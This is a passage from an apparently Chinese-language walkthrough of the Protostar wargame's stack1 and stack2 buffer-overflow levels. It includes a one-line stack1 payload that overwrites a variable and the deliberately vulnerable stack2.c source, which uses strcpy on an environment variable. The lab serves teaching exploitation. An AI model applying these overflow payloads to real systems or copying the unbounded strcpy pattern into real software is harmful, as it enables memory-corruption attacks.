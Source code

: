 传递一个参数，将参数复制到**buffer**中，`覆盖modifies变量`

### EXP

```text
./stack1 `python -c "print('A'*64+'dcba')"`
```

## Stack2

### About

Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

### Source code

{% code title="stack2.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
{% endcode %}

通过**getenv**获取了环境变量**GREENIE**，然后将**GREENIE**的内容复制到**buffer**中，我们这里通过**export**设置环境变量即可。
